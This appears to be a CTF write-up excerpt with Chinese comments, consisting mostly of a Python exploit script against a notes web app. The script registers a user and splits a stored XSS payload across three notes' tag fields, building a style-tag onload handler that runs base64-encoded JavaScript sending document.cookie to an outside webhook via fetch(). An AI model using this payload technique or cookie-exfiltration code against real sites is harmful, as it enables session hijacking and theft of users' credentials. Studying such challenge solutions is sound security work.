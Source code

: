 > exploit.py 
```python=
#!/usr/bin/env python3
import requests
import base64

url = "https://notes.mc.ax"
hookurl = "https://enuij82n12eplyz.m.pipedream.net"
# hookurl = "https://hookb.in/1glQXg3EMpfd6NOO6ByD"  # replace with your hookbin url
code = "fetch('{}?key='+document.cookie)".format(hookurl)
encoded = base64.b64encode(code.encode()).decode()
# 可參考http://www.tastones.com/zh-tw/stackoverflow/python-language/the-base64-module/encoding_and_decoding_base64/

username = "miku"  # replace with random username

with requests.Session() as s:
    s.headers.update({'Content-Type': 'application/json'})
    data = {
        "username": username,
        "password": username
    }
    res = s.post(url+'/api/register', json=data)
    print("[+] Registered a user..")

    # first part
    data = {
        "body": "anything",
        "tag": "<style a='"
    }
    res = s.post(url+'/api/notes', json=data)

    # second part
    data = {
        "body": "anything",
        "tag": "'onload='`"
    }
    res = s.post(url+'/api/notes', json=data)

    # third part
    data = {
        "body": "`;eval(atob(`{}`))/*".format(encoded),
        "tag": "*/'>"
    }
    res = s.post(url+'/api/notes', json=data)

print("Visit {}/view/{} to trigger stored XSS".format(url, username))
print("Payload generated. Visit {} for cookie".format(hookurl)) 
```

* 當自己訪問自己的筆記時，獲取自己的cookie
![](https://i.imgur.com/z8RClID.png)
![](https://i.imgur.com/epS9vxh.png)
